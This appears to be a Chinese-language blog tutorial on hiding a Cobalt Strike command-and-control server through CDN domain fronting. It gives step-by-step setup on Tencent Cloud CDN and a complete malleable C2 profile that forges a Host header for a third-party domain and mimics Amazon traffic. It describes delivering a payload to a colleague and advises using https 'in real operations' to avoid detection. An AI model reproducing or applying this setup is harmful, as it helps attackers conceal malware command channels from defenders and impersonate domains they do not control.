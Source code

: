 ```yaml
---
layout: post
title:  "cobaltstrike 域前置隐藏 c2"
date:   2021-04-29 17:18:43
categories: Development
author: co0ontty
categories: 安全研究 ALL
tags: 安全研究 ALL
describe: cobaltstrike 域前置隐藏 c2
cover: '/assets/img/posts/WechatIMG3712.jpeg'
---
```

# cobaltstrike 域前置隐藏 c2

## 前言：

因为想搭建一套域前置来学习一下高端技术，但是看到网上各种博客和教程讲的我头晕脑涨，所以想写一下博客来记录一下。本文中的域名、c2 、cdn ip 都不会打厚码。能帮助刚接触的朋友快速理解。

## 原理介绍：

域前置的核心是 cdn 。在某 cdn 服务商开通 cdn 加速服务，并将想要伪造的域名与 c2 的 ip 进行绑定（阿里云和 cloudflare 需要验证，腾讯云不需要验证域名所属），通过向 cdn 的节点 ip 发送包含想要伪造 host 的请求，cdn 便会从记录中查找该 host 对应的源站 ip，并将流量转发至原站 ip。

## 开始搭建：

1. 腾讯云 cdn 开通全站加速，并填写相关信息（youhao 为我同事，eversec.cn 为我司域名但我无法控制，可以改为任意域名，47.*.*.34 为我的 c2 服务器，其 80 端口为 cobaltstrike 的 http listener）

![/assets/img/posts/WechatIMG41412.jpeg](/assets/img/posts/WechatIMG41412.jpeg)

2. 为 cobaltstrike teamserver 添加 profile，其中 `youhao.eversec.cn` 修改为想要伪装的域名   

``` bash
set sleeptime "5000";
set jitter    "0";
set maxdns    "255";
set useragent "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko";

http-get {

    set uri "/s/ref=nb_sb_noss_1/167-3294888-0262949/field-keywords=books";

    client {

        header "Accept" "*/*";
        header "Host" "youhao.eversec.cn";

        metadata {
            base64;
            prepend "session-token=";
            prepend "skin=noskin;";
            append "csm-hit=s-24KU11BB82RZSYGJ3BDK|1419899012996";
            header "Cookie";
        }
    }

    server {

        header "Server" "Server";
        header "x-amz-id-1" "THKUYEZKCKPGY5T42PZT";
        header "x-amz-id-2" "a21yZ2xrNDNtdGRsa212bGV3YW85amZuZW9ydG5rZmRuZ2tmZGl4aHRvNDVpbgo=";
        header "X-Frame-Options" "SAMEORIGIN";
        header "Content-Encoding" "gzip";

        output {
            print;
        }
    }
}

http-post {

    set uri "/N4215/adj/amzn.us.sr.aps";

    client {

        header "Accept" "*/*";
        header "Content-Type" "text/xml";
        header "X-Requested-With" "XMLHttpRequest";
        header "Host" "youhao.eversec.cn";

        parameter "sz" "160x600";
        parameter "oe" "oe=ISO-8859-1;";

        id {
            parameter "sn";
        }

        parameter "s" "3717";
        parameter "dc_ref" "http%3A%2F%2Fwww.amazon.com";

        output {
            base64;
            print;
        }
    }

    server {

        header "Server" "Server";
        header "x-amz-id-1" "THK9YEZJCKPGY5T42OZT";
        header "x-amz-id-2" "a21JZ1xrNDNtdGRsa219bGV3YW85amZuZW9zdG5rZmRuZ2tmZGl4aHRvNDVpbgo=";
        header "X-Frame-Options" "SAMEORIGIN";
        header "x-ua-compatible" "IE=edge";

        output {
            print;
        }
    }
}
```

3. 获取 cdn 的节点 ip，ping 这个 cname 获取到 cdn 的节点 ip

![/assets/img/posts/WechatIMG4144.jpeg](/assets/img/posts/WechatIMG4144.jpeg)
![/assets/img/posts/WechatIMG4143.png](/assets/img/posts/WechatIMG4143.png)

4. 添加 listener，生成 payload 发给 youhao，youhao 上线

![/assets/img/posts/WechatIMG4142.jpeg](/assets/img/posts/WechatIMG4142.jpeg)

5. 流量分析，为了方便理解所以使用的 http 进行的演示，可以看到已经看不到任何与 c2 通讯的特征，实战建议使用 https

![/assets/img/posts/WechatIMG3712.jpeg](/assets/img/posts/WechatIMG3712.jpeg)
